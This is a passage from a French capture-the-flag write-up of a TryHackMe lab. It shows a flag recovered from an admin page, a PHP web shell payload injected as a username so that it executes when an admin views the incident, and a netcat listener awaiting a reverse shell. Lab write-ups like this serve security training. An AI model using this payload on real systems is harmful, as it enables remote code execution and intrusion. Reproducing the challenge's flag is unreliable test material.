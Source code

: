 **Website flag**

![page7](./Task1-07.png) 

Dans le code source de la page admin ou trouve le flag.   

La réponse est : THM{d0nt_try_4nyth1ng_funny}   



On se connect à l'utilisateur on change le son nom avec :
```text
<?php system($_GET["cmd"]) ?>
```

On va dans la page admin pour l'incident soit reporté.  


```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le port 1234 pour se connecter au reverse shell.   


![page8](./Task1-08.png)
